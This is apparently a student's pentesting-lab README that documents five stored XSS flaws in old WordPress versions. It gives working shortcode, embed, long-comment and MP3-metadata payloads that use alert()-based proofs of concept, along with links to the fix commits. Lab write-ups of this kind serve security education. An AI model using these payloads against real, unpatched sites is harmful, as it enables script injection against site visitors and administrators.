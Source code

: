 # Project 7 - WordPress Pentesting

Time spent: **5** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Authenticated Stored Cross-Site Scripting (XSS)
  - [ ] Summary: Cross-site scripting (XSS) vulnerability in WordPress before 4.2.3 allows remote authenticated users to inject arbitrary web script or HTML by leveraging the Author or Contributor role to place a crafted shortcode inside an HTML element, related to wp-includes/kses.php and wp-includes/shortcodes.php. 
    - Vulnerability types:XSS
    - Tested in version:4.2.2 and earlier
    - Fixed in version: 4.2.3
  - [ ] GIF Walkthrough: ![](https://github.com/LizDao/Week7CodePath/blob/master/GIF_Walkthrough/XXS_A_Tag.gif)
  - [ ] Steps to recreate:
     First, you need to gain posting permission to the website (maybe through another exploit)
     Then the following code should be entered in a page or posting using the HTML edit mode:
      ```
      <a href="[caption code=">]</a><a title=" onmouseover=alert('XSS!')  ">text</a>
      ```
      WordPress shortcode processing manipulates this into the following form:
      ```
      <a href="</a><a title=" onmouseover=alert('XSS!')  ">text</a>
      ```
       A real-world exploit could use a style attribute to create a transparent tag covering the whole browser window to force execution of      the onmouseover code. 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/changeset/33359)
2. (Required) Authenticated Shortcode Tags Cross-Site Scripting (XSS)
  - [ ] Summary:  Cross-site scripting (XSS) vulnerability in WordPress before 4.3.1 allows remote attackers to inject arbitrary web script or HTML by leveraging the mishandling of unclosed HTML elements during processing of shortcode tags. 
    - Vulnerability types: XSS
    - Tested in version: 4.3 and earlier
    - Fixed in version: 4.3.1
  - [ ] GIF Walkthrough: ![](https://github.com/LizDao/Week7CodePath/blob/master/GIF_Walkthrough/XXS_A_Tag_2.gif)
  - [ ] Steps to recreate: 
    This is quite similar to the first exploit. You need to gain post level permission and then post the following code 
    to the website:
    ```
    [caption width="1" caption='<a href="' ">]</a><a href=" onmouseover='alert("XSS!")' ">Text</a>
    ```
    Which will be processed to be:
    ```
    <figcaption class="wp-caption-text"><a href="</figcaption></figure></a><a href=" onmouseover='alert("XSS!")' ">Text</a>
    ```
    - [ ] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/commit/f72b21af23da6b6d54208e5c1d65ececdaa109c8)
    -[Link 2](https://blog.checkpoint.com/2015/09/15/finding-vulnerabilities-in-core-wordpress-a-bug-hunters-trilogy-part-iii-ultimatum/)
3. (Required) Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
  - [ ] Summary: In WordPress before 4.7.3 (wp-includes/embed.php), there is authenticated Cross-Site Scripting (XSS) in YouTube URL Embeds. 
    - Vulnerability types: XSS
    - Tested in version:4.7.2 or earlier
    - Fixed in version: 4.7.3
  - [ ] GIF Walkthrough: ![](https://github.com/LizDao/Week7CodePath/blob/master/GIF_Walkthrough/XSS_Embedded_Linke.gif)
  - [ ] Steps to recreate: 
    Similarly to the 2 exploits above, you gain post level permission and post the embedded url to the website:
    ```
    [embed src='https://www.youtube.com/embed/12345\x3csvg onload=alert("XSS!")\x3e'][/embed]
    ```
    Wordpress will then process this code into:
    ```
    <p>https://youtube.com/watch?v=12345<svg onload=alert("XSS!")></p>
    ```
    - [ ] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/commit/419c8d97ce8df7d5004ee0b566bc5e095f0a6ca8)
4. (Optional)  Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
  - [ ] Summary: Two Cross-Site Scripting vulnerabilities exists in the playlist functionality of WordPress. These issues can be exploited by convincing an Editor or Administrator into uploading a malicious MP3 file. Once uploaded the issues can be triggered by a Contributor or higher using the playlist shortcode. 
    - Vulnerability types: XSS
    - Tested in version:4.7.2 or earlier
    - Fixed in version: 4.7.3
    - [ ] GIF Walkthrough:  ![](https://github.com/LizDao/Week7CodePath/blob/master/GIF_Walkthrough/XSS_MetaData.gif)
    - [ ] Steps to recreate: 
      Download the following mp3 file and upload to the website media library:
      [mp3 file](https://www.securify.nl/advisory/SFY20160742/xss.mp3)
      Create a audio playlist in the new post and add this mp3 file to the playlist
    - [ ] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/commit/28f838ca3ee205b6f39cd2bf23eb4e5f52796bd7)
5. (Optional) Vulnerability Name or ID
  - [ ] Summary: Cross-site scripting (XSS) vulnerability in wp-includes/wp-db.php in WordPress before 4.2.1 allows remote attackers to inject arbitrary web script or HTML via a long comment that is improperly stored because of limitations on the MySQL TEXT data type. 
    - Vulnerability types:XSS
    - Tested in version: 4.2 or earlier
    - Fixed in version: 4.2.1
  - [ ] GIF Walkthrough:  ![](https://github.com/LizDao/Week7CodePath/blob/master/GIF_Walkthrough/XSS_large_comment.gif)
  - [ ] Steps to recreate: 
  Crate a block of text with size > 64KB
  Comment on the website the following code:
  ```
  <a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  [block of text > 64KB ]'></a>
  ```
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/changeset/32299) 


## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

The installation is extremely time consuming and confusing. The error messages are misleading and searching through forums, trying out tons of different solutions are a bit frustrating. 
But the hacking part is quite fun! 
## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
